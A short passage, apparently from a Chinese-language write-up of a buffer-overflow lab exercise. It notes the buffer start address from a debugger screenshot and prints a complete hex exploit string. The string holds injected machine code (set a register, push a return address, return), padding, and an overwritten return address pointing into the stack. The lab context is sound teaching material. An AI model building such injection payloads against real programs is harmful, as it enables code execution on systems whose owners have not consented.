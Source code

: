 ![Screen Shot 2017-05-15 at 20.35.08](/images/2017-7-9/Screen%20Shot%202017-05-15%20at%2020.35.08.png)

可以看到缓冲区的起始位置为 0x5561dc78。

接下来我们就构造需要的字符串：

```
48 c7 c7 fa 
97 b9 59 68 
ec 17 40 00 
c3 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
00 00 00 00 
78 dc 61 55
```
